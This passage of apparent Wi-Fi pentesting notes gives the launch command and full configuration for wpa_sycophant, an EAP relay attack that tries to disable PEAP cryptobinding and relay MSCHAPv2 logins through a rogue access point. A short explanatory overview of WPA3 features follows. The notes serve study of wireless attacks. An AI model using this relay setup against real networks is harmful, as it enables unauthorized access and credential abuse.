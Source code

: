 ```
sycophant_dir=/tmp/
```

Launching wpa_sycophant
```
./wpa_sycophant.sh -c wpa_sycophant.conf -i wlan1
```

wpa_sycophant.conf (bssid_blacklist = MAC of your fake hostapd AP)
```
network={
  ssid="TestingEAP"
  # The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  # Read https://w1.fi/cgit/hostap/plain/wpa_supplicant/wpa_supplicant.conf for help with phase1 options. 
  # This attempts to force the client not use cryptobinding. 
  phase1="crypto_binding=0 peapver=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=00:14:22:01:23:45
}
```


## WPA3
The major improvement of WPA3 is a improved handshake (*Dragonfly-Handshake*) that makes it impossible for attackers to record the *4-Way Handshake* and launch a offline dictionary attack.  

The Dragonfly variant used in WPA3 is also known as *Simultaneous Authentication of Equals* (SAE).

WPA3 improvments:
- Provide mutual authentication
- Negotiate Session Key
- Prevent Offline Dictionary Attacks
- Perfect forward secrecy

WPA3 also introduces *perfect forward secrecy* which prevents attackers from decrypting past traffic after a key breach.

Additionally, WPA3 supports *Protected Management Frames* (PMF) which makes it impossible to launch *de-authentication attacks*.  
---> WPA2 already supports this, therefore this is not a novelty of WPA3. However with WPA, PMF are included from the start in the certification program.
